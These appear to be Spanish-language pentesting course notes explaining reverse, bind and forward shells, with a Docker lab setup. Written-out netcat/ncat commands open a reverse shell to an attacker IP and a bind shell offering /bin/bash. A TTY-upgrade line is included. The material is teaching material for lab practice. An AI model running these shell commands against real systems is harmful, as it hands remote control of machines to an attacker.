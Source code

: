 En esta clase, veremos las diferencias entre Reverse Shell, Bind Shell y Forward Shell:

- **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

- **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

- **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

Es importante entender las diferencias entre estas técnicas para poder determinar cuál es la mejor opción en función del escenario de ataque y las limitaciones de la red.

## Crear Entorno en Docker
### Crear un Docker file
```dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
#### Ejecutar 
```bash
## Contruir Imagen
docker build -t my_image .

## Construir contenedor
docker run -dit -p 80:80 --cap-add=NET_admin --name myContainer my_image

## Ejecutar contenedor
docker exec -it myContainer bash 
```
## Reverse Shell
```bash
## Maquina Atacante
nc -nlvp 443

## Maquina Victima
ncat -e /bin/bash <IP-Atacante> <PORT>
# Ejemplo 👇
ncat -e /bin/bash 172.17.0.1 443

## Poner un prompt en la consola interactiva
script -c /dev/null -c bash
```
## Bind Shell (Victima ofrece una Shell)
```bash
## Maquina Victima
ncat -nlvp 443 -e /bin/bash

## Maquina Atacante
nc <IP-Victima> <PORT>
```